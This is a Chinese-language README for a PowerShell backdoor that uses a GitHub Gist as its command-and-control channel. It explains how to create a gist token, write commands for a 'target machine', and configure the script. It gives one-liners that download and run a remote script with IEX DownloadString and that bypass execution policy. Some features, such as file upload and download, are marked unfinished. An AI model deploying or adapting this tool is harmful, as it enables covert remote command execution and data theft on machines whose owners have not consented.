 ###Powershell Github Shell
	Author:zshell
	Blog:http://www.0x7c.com
	Github:https://github.com/zlocal/Powershell-Github-Shell
	Demo Result Gist:https://gist.github.com/zlocal/1d449f3c195531c8cafbebfe808ea46e

使用方法：<br>
#### 1，创建github账户，访问https://github.com/settings/tokens/new，选中 gist   Create gists ，创建访问Gists的token.</br>
#### 2, 访问 https://gist.github.com/ ，创建一个Gist，属性最好为private,只有自己能访问查看结果，名称为cmd.例：</br>
为了展示，我设置了public https://gist.github.com/zlocal/1d449f3c195531c8cafbebfe808ea46e
		Command:"time /T"
		ReadFile:"c:/windows/temp/1.txt"
		WriteFile:"http://www.github.com/raw/1.zip c:/wnidows/temp/2.txt"
		Powershell:"Get-Process | Out-String"
		Command:"whoami"
其中
Command后是想要执行的cmd命令，功能已测试OK<br>
ReadFile是上传目标机器上的文件到Github，暂未实现<br>
WriteFile下载文件到目标机器，暂未实现<br><br>
Powershell后是可以执行的Powershell指令，暂未实现<br>

#### 3, 修改Powershell脚本的头部配置信息
$gistsUser="gitusername";		# github的用户名
$gistsApiToken="gittoken";		# 上步中得到的token ，例eed4239e439034a92fc4cbe0fbd2ca906999a9f1
$checkTime=60;				# 每次获取命令结果需要等待的时间，秒为单位

#### 4, 使powershell在目标机器上执行
Powershell执行方法
一句话远程加载 
```Powershell
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```
一句话本地加载
```Powershell
powershell IEX ([System.IO.File]::readAllText('PowershellGitShell.ps1'));	//powershell
```
一句话文件执行
```Powershell
powershell -executionPolicy bypass -File "c:/test/PowershellGitShell.ps1"	//powershell
```
#### 5，可以修改cmd gist的内容，在$checkTime秒后刷新网页，结果会在评论中。结果需要使用URL DECODE解码。
